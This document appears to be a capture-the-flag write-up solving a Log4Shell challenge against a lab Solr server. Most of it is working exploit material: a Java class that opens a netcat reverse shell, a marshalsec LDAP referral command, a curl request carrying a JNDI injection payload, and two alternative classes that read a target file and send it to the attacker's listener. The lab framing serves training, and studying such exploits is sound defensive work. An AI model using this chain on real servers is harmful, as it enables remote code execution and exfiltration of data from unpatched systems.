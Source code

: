 <h1 id="bonus-red-log4jack">Bonus Red Log4Jack</h1>
<p><strong>Location: North Pole</strong><br>
<strong>Troll: Icky McGoop</strong></p>
<p>This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.<br>
Multiple terminal session are created automatically, one running a web server serving from <code>/home/troll/web</code> on port 8080, another one running a netcat listener on port 4444.</p>
<p>The objective is to retrieve the file <code>/home/solr/kringle.txt</code> from a web service running solr on <a href="http://solrpower.kringlecastle.com:8983/">http://solrpower.kringlecastle.com:8983/</a>.</p>
<p>First a Java class <code>Joergen</code> creating a reverse shell is created:</p>
<pre><code>public class Joergen {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.<br>
This is placed in the web tree, so that the web server is able to hand out this class.<br>
Next the <a href="https://github.com/mbechler/marshalsec">marshalsec</a> installation residing in <code>/home/troll/marshalsec</code>  is started:</p>
<pre><code>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
</code></pre>
<p><em>WEBSERVERIP</em> has to be replaced with the terminal’s IP address.<br>
This application acts as an LDAP server and uses the Java class on the web server as remote code base.</p>
<p>Finally the Log4J vulnerability is triggered:</p>
<pre><code>curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
</code></pre>
<p><em>MARSHALSECIP</em> has to be replaced with the terminal’s IP address.</p>
<p>This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file <code>kringle.txt</code> to be retrieved.</p>
<pre><code>cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
</code></pre>
<p>So <strong>patching</strong> is the solution.</p>
<h3 id="alternative-1-just-reading-the-targeted-file">Alternative 1: just reading the targeted file</h3>
<pre><code>import java.io.*;
import java.nio.file.*;

public class Joergen {
  static {
    try {
      Process p=java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444");
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      OutputStream out=p.getOutputStream();
      out.write(data);
      out.close();
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<h3 id="alternative-2-pure-java-solution">Alternative 2: pure Java solution</h3>
<pre><code>import java.io.*;
import java.nio.file.*;
import java.net.Socket;

public class Joergen {
  static {
    try {
	  Socket socket=new Socket("CLIENTIP",4444);
	  PrintStream out = new PrintStream( socket.getOutputStream() );
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      out.write(data);
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<p><strong>Achievement: Log4J Red Bonus</strong></p>

